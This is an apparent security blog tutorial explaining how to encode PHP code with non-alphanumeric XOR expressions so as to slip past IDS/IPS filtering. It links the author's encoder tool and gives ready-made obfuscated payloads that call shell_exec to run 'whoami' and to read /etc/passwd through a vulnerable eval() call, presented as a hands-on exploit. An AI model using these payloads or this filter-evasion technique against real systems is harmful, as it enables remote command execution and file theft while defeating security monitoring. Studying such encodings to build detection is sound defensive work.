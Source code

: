 ```yaml
---
title: Bypass with PHP non-alpha encoder 
layout: post
author: mucomplex
description: This useful when you encounter IDS/IPS prevention which need to bypass PHP code execution
---
```


In this tutorial, I will cover PHP non-alpha encoder. I will show some basic concept first before we going deeper which may cause brain damage. muehehe <br>

A 	| B 	| 	XOR A&B
--------|-------|-------------------
0       | 0     |          0
1       | 0     |          1
0       | 1     |          1
1       | 1     |          0

so if 'A' xor 'A' should be 0. as example below: <br>
![Image 1](/images/PHP_Non-Alpha/Selection_001.png)<br><br>

now lets try 'A' xor '1' : <br>
![Image 2](/images/PHP_Non-Alpha/Selection_002.png)<br><br>

Wait what?.. how it can be 'p' ? .. what's the logic there?. Okay, okay.. I'm going back to basic.<br>
![Image 3](/images/PHP_Non-Alpha/ascii.gif)<br><br>

By opening online calculator <br>
![Image 4](/images/PHP_Non-Alpha/Selection_003.png)<br><br>
In hex, 'A' is '0x41' and '1' is '0x31' , it is not really 0x01. So after xor the value, it get '0x70' which may be the alphabet of 'p' in ascii table <br>

Okay now, what is non-alpha?<br>
**Non-alphanumeric characters that are considered to be symbols are also treated as white space.** <br>
The question is?.. can non-alpha be constructing to become strings?.. answer: Yes!! <br>

Okay, let's take a look again. in hex table, I will use hex 0x20 to 0x40 and 0x7B until 0x7E, so it is not in alphabet range. so with this combination, I try to construct a string <br>
![Image 5](/images/PHP_Non-Alpha/Selection_004.png)<br><br>

You have the basic concept now. Lets *fire-up* our PHP-cli (I will use php7.x).As we know variable declaration in most programming language accept a-z, A-Z,0-9 and underscore.
I will use underscore as my variable.<br>
First command I use to declare my variables '$\_;'.It will contain undefine variable, which we may assume as 'Null' or '0'.<br>
2nd, I try to increase the '$\_;' by append '++' at the end ($\_++;).Result will be numeric '1' <br>
3rd, by concate string and number, php will take first parameter as its type. ''.$\_ is string '1' . I try to xor again with 'A', it gives 'p'. I hope it is clear. <br>
![Image 6](/images/PHP_Non-Alpha/Selection_005.png)<br><br>

So let construct our string. but lazy?.. okay I made some tool for you, and study the code.<br>
[PHP\_alphanumeric\_encoder](https://github.com/mucomplex/PHP_alphanumeric_encoder) <br>

What is python argumentparser? and how to declare it?<br>
**The argparse module makes it easy to write user-friendly command-line interfaces. The program defines what arguments it requires, and argparse will figure out how to parse those out of sys.argv. The argparse module also automatically generates help and usage messages and issues errors when users give the program invalid arguments.** <br>

![Image 7](/images/PHP_Non-Alpha/Selection_006.png)<br><br>

Then I initialize php\_encoder class with 3 arguments which is payload,method and badchar. I also create symbolic\_list by using string.digits + string.printable[62:94] . <br>
Finally I create list of 'xor' and 'or' non-alpha to be store. <br>

![Image 8](/images/PHP_Non-Alpha/Selection_007.png)<br><br>

Below is function replacing badchar with ''. <br>
![Image 9](/images/PHP_Non-Alpha/Selection_008.png)<br><br>
php\_encoder is check: <br>
1. check if successfully encode all payload character.
2. iteration of xor non-apha and non-alpha.
3. if payload contain non-alpha.It directly pickup the non-alpha character.
4. else it will 'xor' and check if match, it append to the list.
![Image 10](/images/PHP_Non-Alpha/Selection_009.png)<br><br>

if you look at the code, there is another logic that I use. which is 'or' encoder. you may figure out this your self. <br>
Let test the code: <br>
![Image 11](/images/PHP_Non-Alpha/Selection_010.png)<br><br>
![Image 12](/images/PHP_Non-Alpha/Selection_011.png)<br><br>

echo $\_\_($\_);  it actually same as echo shell\_exec('whoami'). <br>

Hands-on time!!! , below code is vulnerable to php-nonalpha encoder,which limit us only to write number and some symbols. <br>
![Image 13](/images/PHP_Non-Alpha/Selection_012.png)<br><br>
With same payload we craft before.Try to exploit eval function.<br>
($\_ = ('7'^'@').('7'^'_').('/'^'@').(':'^'[').('@'^'-').('['^'2')) is define for whoami <br>
($\_\_= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')) is define for shell_exec<br>
($\_\_($\_)) is equal to shell_exec('whoami')<br><br>
eval('print '.($_ = ('7'^'@').('7'^'\_').('/'^'@').(':'^'[').('@'^'-').('['^'2')).($__= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($__($_)).";"); <br>
I bracket for each variables define and execute it by calling ($\_\_($\_)) <br>
![Image 14](/images/PHP_Non-Alpha/Selection_013.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_014.png)<br><br>


try with other payload 'cat /etc/password' and arrange our payload back. <br>

($_ = ('8'^'[').('!'^'@').(')'^']').('['^'{')."/".(']'^'8').(']'^')').(']'^'>')."/".('^'^'.').('^'^'?').('\_'^',').('3'^'@').('7'^'@').('9'^']')).($__= ('3'^'@').('3'^'[').('8'^']').(','^'@').('@'^',')."\_".('['^'>').(']'^'%').('^'^';').('^'^'=')).($__($_)) <br>

![Image 14](/images/PHP_Non-Alpha/Selection_015.png)<br><br>
![Image 14](/images/PHP_Non-Alpha/Selection_016.png)<br><br>

